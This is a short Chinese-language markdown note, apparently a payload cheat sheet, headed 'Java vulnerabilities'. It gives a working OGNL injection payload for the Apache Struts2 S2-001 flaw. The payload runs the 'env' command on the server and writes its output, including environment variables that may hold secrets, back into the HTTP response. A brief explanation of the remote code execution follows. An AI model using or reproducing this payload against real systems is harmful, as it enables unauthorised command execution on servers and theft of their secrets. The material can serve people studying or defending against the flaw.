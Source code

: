 # JAVA漏洞


### S2-001


playload ：

````

%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"env"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}

````

<br>

解释:

<br>

这是一段针对 Struts2 框架的远程代码执行（RCE）攻击代码。该攻击利用了 Struts2 过滤器没有正确处理 OGNL 表达式中 #{} 情况的漏洞，导致攻击者可以在 HTTP 请求中注入任意代码，从而执行任意命令。
具体来说，这段代码会创建一个新的进程，并执行 "env" 命令，将结果输出到 InputStream 中。然后通过 BufferedReader 和 char 数组等方式读取 InputStream 中的内容，并将结果输出到 HttpServletResponse 中，最终返回给攻击者。


